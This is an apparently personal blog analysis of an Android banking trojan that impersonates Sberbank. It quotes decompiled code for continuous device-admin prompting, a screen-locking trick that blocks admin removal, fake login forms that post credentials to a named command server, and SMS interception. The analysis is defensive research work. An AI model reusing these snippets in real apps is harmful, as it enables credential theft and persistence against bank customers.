







### Diving into Sberbank Android banker - Android malware analysis

### [~$ cd ..](../)

A few days ago, I found this [article](https://www.zscaler.com/blogs/research/android-banker-malware-goes-social) about a malware targeting [Sberbank](https://www.sberbank.ru),
a big Russian bank. The app disguises itself as a web application, stealing in background user's credentials, asking for admin privileges, and exfiltrating other sensitive data.
The malware is pretty smart as we will see.

_I sometimes rewrote the decompiled code in order to remove some imperfections due to decompilation_

## First steps

As usual, I took a look at the [AndroidManifest](AndroidManifest.xml), and saw that the app was requested a bunch of permissions. I located the entry point:

> ```xml
><activity android:label="Сбербанк" android:name="krep.itmtd.ywtjexf.UampleUverlayUhowUctivity">
>	<intent-filter>
>		<action android:name="android.intent.action.MAIN"/>
>		<category android:name="android.intent.category.LAUNCHER"/>
>	</intent-filter>
></activity>
> ```

What a strange name ...  And in the routine `onCreate`, we can already see some interesting things :

> ```java
>protected void onCreate(Bundle paramBundle){
>	super.onCreate(paramBundle);
>	startService(new Intent(this, MasterInterceptor.class));
>	String timer = "";
>	try{
>		ApplicationInfo applicationInfo = getPackageManager().getApplicationInfo(getPackageName(), PackageManager.GET_META_DATA);
>		if (applicationInfo.metaData != null) {
>			timer = applicationInfo.metaData.getString("timer");
>		}
>	}
>	catch (PackageManager.NameNotFoundException e){e.printStackTrace();}
>	int i = 60;
>	if (timer.length() > 2) {
>		i = Integer.parseInt(timer.substring(1));
>	}
>	AlarmManager alarmManager = (AlarmManager)getSystemService(ALARM_SERVICE);
>	long now = SystemClock.elapsedRealtime();
>	Calendar calendar = Calendar.getInstance();
>	calendar.setTimeInMillis(System.currentTimeMillis());
>	calendar.add(Calendar.SECOND, 10);
>	PendingIntent pendingIntent = PendingIntent.getBroadcast(this, 0, new Intent(this, MasterTimer.class), 0);
>	alarmManager.setRepeating(AlarmManager.RTC_WAKEUP, now + 5000L, i * 1000, pendingIntent);
>	eba();
>}
> ```

* First, a service named `MasterInterceptor` (quite suspicious) is launched
* A repeated task is configured, doing its job every minute ( `i` is equal to 60, and in the manifest, the meta-data `timer` is also `<meta-data android:name="timer" android:value="i60"/>`
* The routine `eba` is called, continuously asking for administration privileges 

Let's take a closer look

### MasterInterceptor

The routine `onStartService` only returns `Service.START_REDELIVER_INTENT`, but in `onCreate`, an asynchronous task is launched, iterating over active packages :

> ```java
>String[] getActivePackages(){
>	HashSet<String> localHashSet = new HashSet<>();
>	for (ActivityManager.RunningAppProcessInfo localRunningAppProcessInfo : ((ActivityManager) getSystemService(ACTIVITY_SERVICE)).getRunningAppProcesses()) {
>		if (localRunningAppProcessInfo.importance == 100) {
>			localHashSet.addAll(Arrays.asList(localRunningAppProcessInfo.pkgList));
>		}
>	}
>	return localHashSet.toArray(new String[localHashSet.size()]);
>}
>
>String[] getActivePackagesCompat(){
>	return new String[] { ((ActivityManager)getSystemService(ACTIVITY_SERVICE)).getRunningTasks(1).get(0).topActivity.getPackageName() };
>}
> ```

Each package name is then compared against a value put in preferences, and if there is a match, the service `GlobalCode` is launched :

> ```java
>Intent localIntent = new Intent(getApplicationContext(), GlobalCode.class);
>localIntent.putExtra("content", localMap.get(str));
>localIntent.putExtra("type", "start");
>localIntent.putExtra("data", "");
>startService(localIntent);
> ```

### MasterTimer

The class `MasterTimer` is a `BroadcastReceiver`, repeating a task every minute:

> ```java
>public void onReceive(Context paramContext, Intent paramIntent){
>	String str = "";
>	try{
>		ApplicationInfo localApplicationInfo = paramContext.getPackageManager().getApplicationInfo(paramContext.getPackageName(), 128);
>		if (localApplicationInfo.metaData != null) {
>			str = localApplicationInfo.metaData.getString("domain");
>		}
>	}
>	catch (PackageManager.NameNotFoundException e){
>		e.printStackTrace();
>	}
>	this.intent = new Intent(paramContext, GlobalCode.class);
>	this.intent.putExtra("content", "http://" + str + "/api/input.php");
>	this.intent.putExtra("type", "Master");
>	this.intent.putExtra("data", "");
>	paramContext.startService(this.intent);
>}
>```

Once again, the service `GlobalCode` will be launched. Since it's a scheduled task, we can suppose that it could be a service used to exfiltrate data regularly.

### Asking for administration privileges

The routine `eba` will be called continuously, thanks to `startActivityForResult`, where a new call is done if the administration privileges haven't been granted:

> ```java
>protected void onActivityResult(int paramInt1, int paramInt2, Intent paramIntent){
>	if (8 == paramInt1) {
>		eba();
>	}
>}
> ```

and in `eba`, we can see that `GlobalCode` is called here too.

> ```java
>protected void eba(){
>	this.mDPM = (DevicePolicyManager)getSystemService(DEVICE_POLICY_SERVICE);
>	this.mAdminName = new ComponentName(this, MyAdmin.class);
>	Intent intent;
>	if (!this.mDPM.isAdminActive(this.mAdminName)){
>		intent = new Intent("android.app.action.ADD_DEVICE_ADMIN");
>		intent.putExtra("android.app.extra.DEVICE_ADMIN", this.mAdminName);
>		intent.putExtra("android.app.extra.ADD_EXPLANATION", "<some russian incomprehensible things>");
>		startActivityForResult(intent, 8);
>		return;
>	}
>	try{
>		if (Arrays.asList(getResources().getAssets().list("")).contains("autorun.html")){
>			intent = new Intent(this, GlobalCode.class);
>			intent.putExtra("content", "file:///android_asset/autorun.html");
>			intent.putExtra("type", "autorun");
>			intent.putExtra("data", "");
>			startService(intent);
>			finish();
>			return;
>		}
>	}
>	catch (IOException e){
>		e.printStackTrace();
>		return;
>	}
>	finish();
>}
> ```



## Admin privileges

As we saw, the app will ask for admin privileges until the user accepts or uninstalls. However, if the privileges are granted to the malicious app, a trick
is used to keep these privileges as long as possible:

> ```java
>public CharSequence onDisableRequested(final Context paramContext, Intent paramIntent){
>	Intent startIntent = paramContext.getPackageManager().getLaunchIntentForPackage("com.android.settings");
>	startIntent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
>	paramContext.startActivity(paramIntent);
>	final DevicePolicyManager policyManager = (DevicePolicyManager)paramContext.getSystemService(DEVICE_POLICY_SERVICE);
>	policyManager.lockNow();
>	new Thread(new Runnable(){
>		public void run(){
>			for (int i = 0; i < 70;i++){
>				policyManager.lockNow();
>				try{
>					Thread.sleep(100L);
>				}
>				catch (InterruptedException localInterruptedException){
>					localInterruptedException.printStackTrace();
>				}
>			}
>		}
>	}).start();
>	return "";
>}
> ```

**NOTE**: returning a non-null string is crucial. Indeed, it will display a dialog letting the user confirm the action. Otherwise, privileges are dropped without
confirmation.

The Setting are launched in a new `Activity`, and the screen is locked for a few seconds. After this delay, the poor user is landed on a new Settings page.

**NOTE**: this technique is outdated, and will not work if the event `DEVICE_ADMIN_DISABLE_REQUESTED` is not triggered. It was the case when I tried to uninstall
the app on my emulator (Android Oreo), admin privileges were dropped and the app successfully uninstalled

## GlobalCode

As we saw, `GlobalCode` is a crucial part of the malware. If administration privileges are granted, a new page is open



* Для доступа к счетам и картам<br>зарегистрируйте свой телефон. : To access your accounts and cards, register your phone.
* ВОЙТИ В СБЕРБАНК ОНЛАЙН: GO TO THE SBERBANK ONLINE
* ЗАРЕГИСТРИРОВАТЬСЯ: REGISTER
* Убедитесь, что у Вас подключена услуга "Мобильный банк": Make sure that you have activated the service "Mobile Bank"

Thanks Google Translate!

This page is displayed because of `autorun.html` in the folder [assets](assets/):

> ```javascript
><script>
>MeSetting.startPage("file:///android_asset/2/index.html#full");
></script>
> ```

### Login page

The first button leads to this login page:

![login][login_form.png]

* Логин или идентификатор: Login or ID
* Пароль: Password

At the end of the file, we can find this line:

> ```html
>document.myformsbol1.action = "http://"+MeSetting.getDomain()+"/api/indata.php?type=SBankFull";
> ```

where `myformsbol1` is the login form, and `getDomain` returns the meta-data `domain`: **pari.securedapinetworks.com**, sending credentials to the C&C server.

As the use clicks on the arrow to submit, a new page is displayed with a hard-coded error message

> ```javascript
>$('#send-sbol').click(function() {
>	$('#myformsbol1').fadeOut(1000, function() {
>		$('#error2').fadeIn(500).delay(5000).delay(100, function() {
>			document.myformsbol1.submit();
>		});
>	});
>});
> ```

and

> ```html
><div id="error2">
>	<p>В настоящее время проводятся технические работы. Приложение закроется автоматически<br><br>Приносим извинения за неудобства</p>
></div>
> ```

or in English:  "Currently, technical work is being carried out. The application closes automatically. We apologize for the inconvenience"

Meanwhile, credentials have been stolen.

### Register page

The second button of the first page leads to this page:



Stolen data are also sent to the C&C server.

> ```html
>document.myformsbol2.action = "http://"+MeSetting.getDomain()+"/api/indata.php?type=SBankCC";
> ```

## Abusing overlay

It's an old well known technique, used here to steal user's credentials by displaying a fake view of another application.

The service `OverlayService` could be started from `MeSetting.startTPL`, and will build an `OverlayView` displaying the fake view in a `WebView`:



## That's not all! SMS and Calls

As we can see in the Manifest, the malware also listens for incoming SMS and calls:

> ```xml
> ...
><receiver android:name="krep.itmtd.ywtjexf.IncomingSms" android:priority="999">
>	<intent-filter android:priority="999">
>		<action android:name="android.provider.Telephony.SMS_RECEIVED"/>
>	</intent-filter>
></receiver>
><receiver android:name="krep.itmtd.ywtjexf.IncomingCall">
>	<intent-filter>
>		<action android:name="android.intent.action.PHONE_STATE"/>
>	</intent-filter>
></receiver>
>...
> ```

SMS are caught and the app exfiltrates them:



However, the malware could also send SMS:



This kind of action can be requested by the C&C server, by putting in the HTML response such JS code, according to Zscaler's article

> ```html
><script>
>MeAction.SetCmd("SMSperehvat", "http://"+MeSetting.getDomain()+"/api/inputsms.php");
>MeAction.SetSMS("SMSperehvat");
></script>
> ```

The malware can also make some calls and intercept them:



## Resources

Download decompiled sources: [dec_sources.zip](dec_sources.zip)

* APK: 02e231f85558f37da6802142440736f6
* Package: krep.itmtd.ywtjexf-1
* Contagio dump: http://contagiominidump.blogspot.be/2016/07/whatsapp-sberbank-android-banker.html
